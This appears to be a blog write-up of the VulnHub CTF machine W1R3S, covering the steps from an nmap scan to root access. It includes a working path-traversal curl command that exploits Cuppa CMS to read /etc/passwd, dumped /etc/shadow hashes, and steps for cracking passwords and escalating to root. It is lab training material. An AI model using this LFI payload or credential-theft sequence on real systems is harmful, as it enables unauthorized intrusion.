```yaml
---
layout: post
title: W1R3S
date: 2020-07-06
author: the-bilal-rizwan
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Recon

After configuring the W1R3S: 1.0.1 and getting its ip through  nmap. I quicky ran a nmap scan 

#### Nmap results

```perl

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.174.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

````

#### Enumeration

**FTP**

I originally started off with the ftp anonymous login and found 3 folders one contained usernames the rest were just trolls e.g one of the files contained the following test 

```bash
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==

```
I decoded the base64 string and decoded to `It is easy, but not that easy..`

**Web**

Next I went on to enumerate the web apps since that seemed to be the most likely way of getting in the server.

I found out that its running Cuppa CMS. I did a quick google search and found this exploit 
https://www.exploit-db.com/exploits/25971

Though this did not work the file did load up but nothing came up on the page. 

I downloaded the source code of the app from https://github.com/CuppaCMS/CuppaCMS and started to dig in myself to verify if the vuln listed on exploit-db exited. 

from the exploit on exploit-db the problem was in `/alerts/alertConfigField.php (LINE: 22)`

![exploit db image]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/exploitdb.png)

I did a quick grep on the mentioned page but nothing came up


![grep nothing found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep1.png)

Then I begain to analyze the code further and I saw the following

![grep found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep2.png)

and finally using this information I was able to exploit the LFI

```bash

curl -X POST --data "urlConfig=../../../../../../../../../etc/passwd" http://192.168.174.140/administrator/alerts/alertConfigField.php
```
![lfi]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/lfi.png)


#### Exploitation

I was able to read the /etc/shadow file 

```bash
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::

```

used `hashcat` and rockyou.txt to crack the passwords


![hashcat]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/hashcat.png)

and logged in with user `w1r3s`

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/ssh.png)


#### Priv Esec

I just simply ran `sudo su` and entered the password computer and voila! got root

![root]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/root.png)
